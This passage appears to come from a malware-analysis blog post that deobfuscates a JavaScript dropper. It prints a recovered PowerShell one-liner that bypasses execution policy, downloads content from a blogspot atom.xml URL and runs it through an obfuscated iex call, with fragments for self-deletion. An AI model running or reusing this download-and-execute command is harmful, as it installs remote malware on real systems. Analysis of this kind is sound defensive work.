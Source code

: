 ![](/images/jsdeobf/image15.jpg)

{% highlight ps1 %}
ScriptFullName,powershell -ep Bypass -c [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$(irm mainsimon1-22.blogspot.com////////////////////////////atom.xml) | . ('i*x').replace('*','e');Start-Sleep -Seconds 3,She,ll,RUN,pt.,Scripting.FileSystemObject,DeleteFile,WS,Sleep,cri

{% endhighlight %}

{% highlight ps1 %}
WS,RUN,powershell -ep Bypass -c [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$(irm mainsimon1-22.blogspot.com////////////////////////////atom.xml) | . ('i*x').replace('*','e');Start-Sleep -Seconds 3,pt.,ll,Scripting.FileSystemObject,cri,She,ScriptFullName,DeleteFile,Sleep
{% endhighlight %}

It's powershell script retrieving the contents of Atom feed from "mainsimon1-22.blogspot.com////////////////////////////atom.xml"

Let's visit this url

![](/images/jsdeobf/image17.jpg)
